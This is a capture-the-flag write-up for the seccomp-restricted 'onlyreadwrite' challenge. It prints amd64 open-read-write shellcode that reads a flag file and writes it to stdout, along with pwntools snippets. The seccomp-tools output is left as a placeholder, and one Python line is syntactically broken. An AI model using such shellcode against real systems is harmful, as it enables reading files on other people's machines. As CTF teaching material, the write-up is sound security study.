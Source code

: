 # onlyreadwrite

This challenge reads shellcode from stdin and executes it. The problem is that the syscalls that we can use are limited.

## What syscalls can we use?



To find out what syscalls we can use we can use the following command:

```bash
seccomp-tools dump ./onlyreadwrite
```

Some details about the tool can be found [here](https://github.com/david942j/seccomp-tools).

The output of the command is the following:

```bash
INSERT HERE...
```

## The shellcode

Now that we know that we can use just a few syscalls, we can start writing the shellcode.

The idea was to use shellcraft to generate the shellcode for the open-read-write sequence.

```python
shellcode = pwnlib.shellcraft.amd64.linux.open('./flag', 0, 0)
shellcode += pwnlib.shellcraft.amd64.linux.read(FD_READ, 'rsp', 100)
shellcode += pwnlib.shellcraft.amd64.linux.write(FD_WRITE = 1, 'rsp', 100)
```

The problem is that (afaik) there is no way to get the file descriptor from the open syscall and use it as argument for the read.

So i generated the assembly from shellcraft and slightly modified it to get the file descriptor in RDI (where the read syscall expects it).

```asm
/* push './flag' on the stack */
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101010101 ^ 0x67616c662f2e
xor [rsp], rax

/* call open(RDI -> './flag', 0, 0) */
mov rdi, rsp
xor edx, edx /* 0 */
xor esi, esi /* 0 */
push SYS_open /* 2 */
pop rax /* -> 2 */
syscall

/* call read(RDI -> RAX = fd of './flag', RSI = 'rsp', RDX = 0x64) */
push rax
xor eax, eax /* SYS_read */
pop rdi /* -> fd  returned by open. **This is what I had to change** */
push 0x64
pop rdx
mov rsi, rsp
syscall

/* call write(fd=1 (stdout), RSI = 'rsp', RDX =0x64) */
push 1
pop rdi
push 0x64
pop rdx
mov rsi, rsp
push SYS_write /* 1 */
pop rax
syscall
```

Basically it is opening the file, reading it on the stack and then writing it on stdout.